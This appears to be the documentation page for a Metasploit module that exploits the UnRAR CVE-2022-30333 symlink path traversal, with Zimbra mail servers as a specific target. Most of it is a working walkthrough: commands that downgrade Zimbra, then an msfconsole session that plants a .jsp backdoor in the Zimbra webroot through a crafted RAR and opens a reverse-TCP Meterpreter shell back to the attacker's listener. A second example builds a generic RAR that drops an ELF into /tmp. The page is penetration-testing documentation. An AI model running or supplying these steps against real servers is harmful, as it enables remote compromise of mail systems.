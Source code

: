 ## Vulnerable Application

This module exploits a symlink-based path traversal vulnerability in UnRAR 6.11 and earlier (open source version 6.1.6 and earlier). You can get the vulnerable versions here:

* [Vulnerable unRAR version](https://www.rarlab.com/rar/rarlinux-x64-611.tar.gz)
* [Github commit](https://github.com/pmachapman/unrar/commit/22b52431a0581ab5d687747b65662f825ec03946)

Zimbra is included as a specific target, because certain Zimbra versions use `unrar` to scan incoming email. Specifically, the following versions of Zimbra are affected:

* Zimbra Collaboration 9.0.0 Patch 24 (and earlier)
* Zimbra Collaboration 8.8.15 Patch 31 (and earlier)

Installing the vulnerable versions of Zimbra is a pain, unfortunately. Currently, the following command works to downgrade Zimbra:

```
$ apt-get install zimbra-patch=8.8.15.1651873147.p31.1-1.u18 zimbra-mta-patch=8.8.15.1651844231.p31.1-1.u18 zimbra-proxy-patch=8.8.15.1651844231.p31.1-1.u18
$ zmcontrol -v
Release 8.8.15.GA.3869.UBUNTU18.64 UBUNTU18_64 FOSS edition, Patch 8.8.15_P31.1.
```

Followed by specifically installing the vulnerable version of `unrar` linked above. Downpatching Zimbra like that is really finnicky, though, so that likely won't always work.

## Verification Steps

To exploit Zimbra:

```
msf6 > use exploit/linux/fileformat/unrar_cve_2022_30333
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > set RHOSTS 10.0.0.154
RHOSTS => 10.0.0.154
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/sbrnabwujh.jsp
[+] payload.rar stored at /home/ron/.msf4/local/payload.rar
[+] File created! Email the file above to any user on the target Zimbra server
[*] Trying to trigger the backdoor @ public/sbrnabwujh.jsp...
[*] Trying to trigger the backdoor @ public/sbrnabwujh.jsp...
[*] Trying to trigger the backdoor @ public/sbrnabwujh.jsp...
[*] Sending stage (3020772 bytes) to 10.0.0.154
[+] Deleted ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/sbrnabwujh.jsp
[*] Meterpreter session 1 opened (10.0.0.146:4444 -> 10.0.0.154:51664) at 2022-07-20 13:33:25 -0700

meterpreter > getuid
Server username: zimbra
```

To generate a generic .rar file:

```
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > set TARGET 1
TARGET => 1
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > set TARGET_PATH '../../../../../../../../../tmp'
TARGET_PATH => ../../../../../../../../../tmp
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > set TARGET_EXTENSION 'elf'
TARGET_EXTENSION => elf
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > exploit

[*] Target filename: ../../../../../../../../../tmp/hftb.elf
[+] payload.rar stored at /home/ron/.msf4/local/payload.rar
```

(then, in a shell with a vulnerable version of unrar)

```
ron@fedora ~/tools/unrar $ ./unrar x ~/.msf4/local/payload.rar
UNRAR 6.11 freeware      Copyright (c) 1993-2022 Alexander Roshal

Extracting from /home/ron/.msf4/local/payload.rar

Extracting  ZEnFEoDkBpQZ                                              OK
Extracting  ZEnFEoDkBpQZ                                              OK
All OK
ron@fedora ~/tools/unrar $ file /tmp/hftb.elf
/tmp/hftb.elf: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

## Options

### `FILENAME`

The filename to generate

### `TARGET_PATH`

The path (traversal included) where the payload will extract to - eg, `../../../tmp/target.txt`

### `TARGET_FILENAME` / `TARGET_EXTENSION`

The filename and extension for the payload.

The logic of both is:

* We want to randomize the `TARGET_FILENAME`, but...
* The Zimbra exploit requires a `.jsp` extension to work

To have a random filename but a specific extension, my best idea is to have two separate options.

### `EncodeAsJsp`

If set to `true`, encode the payload into .jsp format. This makes it possible to exploit Zimbra.

### `ListenerTimeout`

The number of seconds to wait for a new session (default = `0`, or infinite).

### `CheckInterval`

The frequency with which to check for the payload on the server. Every `CheckInterval`, it performs an HTTP request to the payload path.

## Scenarios

The most common examples are listed above in "Verification Steps".
